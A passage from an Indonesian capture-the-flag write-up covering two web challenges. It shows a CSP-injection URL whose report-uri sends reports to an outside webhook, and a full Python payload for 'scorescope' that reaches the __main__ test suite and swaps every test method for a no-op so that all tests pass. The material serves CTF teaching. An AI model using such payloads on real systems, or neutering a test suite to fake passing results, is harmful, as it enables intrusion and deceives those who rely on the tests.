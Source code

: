 https://codebox.mc.ax/?code&code=%3Cimg+src%3D%22*%3B+report-uri+%27https%3A%2F%2Feowpmyr1h7ic854.m.pipedream.net%27%3B+require-trusted-types-for+%27script%27%22

Report yang terkirim ke webhook 

![](Pasted%20image%2020230207164435.png)

Untuk lebih jelasnya bisa melihat vidio berikut: https://www.youtube.com/watch?v=oTv3A4lxTro&list=PLUj83tCk_iA3TkyHd1pDdYRIjTpkp96mA

## scorescope (web)

Pada challenge ini kita perlu untuk menyelesaikan semua test casenya, tetapi ada beberapa testcase yang mustahil di kerjakan degna cara biasa.

Hasil yang pertama kita bisa lakukan adalah meleak top level context menggunakan `__import__('__main__')`, setelah itu kita bisa merubah semua test fungsi yang ada di pbject suite pada top level context.

Untuk lebih jelasnya bisa melihat vidio berikut: https://www.youtube.com/watch?v=4SzJs2U9-2U&list=PLUj83tCk_iA3TkyHd1pDdYRIjTpkp96mA

Payload utuk menyelesaikan challenge

```python
def nop():
    return

def add(a, b):
    main = __import__('__main__')
    def make_nop(suite):
        if suite == None:
            return
        if "_testMethodName" in suite.__dict__:
            suite.__dict__[suite.__dict__['_testMethodName']] = nop
        if "_tests" in suite.__dict__:
            for a in suite._tests:
                make_nop(a)
    make_nop(main.suite)
    return a+b
```

